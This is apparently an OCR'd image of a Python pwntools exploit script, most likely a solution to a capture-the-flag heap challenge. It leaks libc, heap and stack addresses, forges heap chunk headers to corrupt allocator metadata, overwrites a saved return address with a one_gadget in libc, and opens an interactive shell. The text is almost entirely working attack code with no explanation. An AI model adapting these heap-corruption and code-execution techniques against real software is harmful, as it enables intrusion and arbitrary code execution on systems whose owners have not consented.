 ```python
p.recvuntil('INDEX: 3')
p.recvuntil('CONTENT: ')
libcbase = u64(p.recvuntil('\n')[:-1].ljust(8,'\x00')) -  (0x7fe1dd553b78-0x7fe1dd18f000)
environ = libc.sym['environ']+libcbase
pr('heapbase',heapbase)
pr('libcbase',libcbase)

add(0x100)
add(0x100)
delete(4)
delete(1)
delete(2)
delete(3)
#================================empty now =================================

add(0x100,'a'*0x100)
edit(1,'a'*0x30+p64(0)+p64(0x41)+p64(0x602070)*2+'\x00'*0x20+p64(0x40))
delete(1)


add(0x10) #1
add(0xf0) #2
add(0x10) #3
add(0x100,'a'*0x100) #4
delete(1)
add(0x18,'a'*0x10+p64(heapbase+0x20-0x602070)) #1
delete(2)

edit(4,'a'*0x30+p64(0)+p64(0x101)+p64(libcbase+(0x00007f36556adb78-0x00007f36552e9000))*2)
add(0xf0,'a'*0xc0+p64(0x100)+p64(environ)+p64(0x100)+p64(0x602148))
p.recvuntil('INDEX: 1')
p.recvuntil('CONTENT: ')
stackleak= u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))
target = stackleak + (0x7ffefd8d96e8-0x7ffefd8d97d8)
pr('target',target)
pr('stackleak',stackleak)
edit(2,p64(target))
edit(1,p64(libcbase+0x45226))
p.recvuntil('(CMD)>>> ')
p.sendline('Q')
#gdb.attach(p)
p.interactive()
```

